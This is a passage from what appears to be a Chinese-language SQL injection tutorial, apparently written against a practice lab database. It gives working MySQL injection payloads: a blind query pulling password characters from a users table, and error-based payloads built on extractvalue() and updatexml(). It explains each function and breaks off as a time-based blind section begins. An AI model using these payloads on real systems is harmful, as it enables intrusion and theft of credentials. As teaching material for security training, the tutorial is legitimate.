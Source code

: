 ```mysql

#爆密码：
	
1' and (select mid((select password from security.users limit 0,1),1,1)='d')--+
```

##### 报错注入：

报错注入是基于sql数据库的报错机制实现的注入，利用的是extractvalue()或updatexml()函数。

###### extractvalue(XML_document，XPath_string);

第一个参数XML_document：是string格式，为XML文档对象的名称，文中为Doc

第二个参数XPath_string：是XPath格式的字符串

payload演示：

```mysql
1' and extractvalue(1,concat(0x7c,(select database())))--+
```



###### updatexml(XML_document,XPath_string,new_value);

第一个参数XML_document：是string格式，为XML文档对象的名称，文中为Doc

第二个参数XPath_string：为XPath格式的字符串

第三个参数new_value：string格式，替换查找到的符合条件的数据

payload演示：

```mysql
1' and updatexml(1,concat(0x7c,(select database())),1)--+
```

![image-20200824085117032](SQL注入.assets/image-20200824085117032.png)

报错的原因是因为第二个参数需要的是Xpath格式的字符串，与我们输入的显然不符合，所以报错

##### 时间盲注：

###### if函数

if(expr1,expr2,expr3)

如果expr1是ture，则if的返回值为expr2，否则返回值为expr3
